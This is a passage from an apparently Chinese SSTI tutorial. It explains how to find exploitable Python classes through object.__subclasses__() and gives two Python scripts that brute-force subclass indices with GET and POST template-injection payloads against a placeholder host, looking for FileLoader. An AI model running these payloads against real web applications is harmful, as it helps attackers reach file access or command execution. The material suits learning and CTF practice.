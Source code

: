 ```
(125, <class 'list_iterator'>)
(126, <class 'list_reverseiterator'>)
(127, <class 'range_iterator'>)
(128, <class 'set_iterator'>)
(129, <class 'str_iterator'>)
(130, <class 'tuple_iterator'>)
(131, <class 'collections.abc.Sized'>)
(132, <class 'collections.abc.Container'>)
(133, <class 'collections.abc.Callable'>)
(134, <class 'os._wrap_close'>)
(135, <class 'os._AddedDllDirectory'>)
(136, <class '_sitebuiltins.Quitter'>)
(137, <class '_sitebuiltins._Printer'>)
(138, <class '_sitebuiltins._Helper'>)
```

可以看出2.7有的3.6大部分都有，但还是有一些子类是不一样的。

SSTI的主要目的就是从这么多的子类中找出可以利用的类（一般是指读写文件或执行命令的类）加以利用。

但python的版本不同，要利用的类的位置就不同，索引号就不同，下面借鉴了一下S神的遍历python环境中类的脚本：

```
#by S神
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'
}
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/?get参数={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url,headers=headers)
    if 'FileLoader' in res.text: #以FileLoader为例
        print(i)

# 得到编号为79
```

```
#by S神
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'
}
for i in range(500):
    url = "http://xxx.xxx.xxx.xxx:xxxx/"
    postPara = {"post参数":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
    res = requests.post(url=url,headers=headers,data=postPara)
    if 'FileLoader' in res.text: #以FileLoader为例，查找其他命令时就用其他子类
        print(i)

# 得到编号为79
```

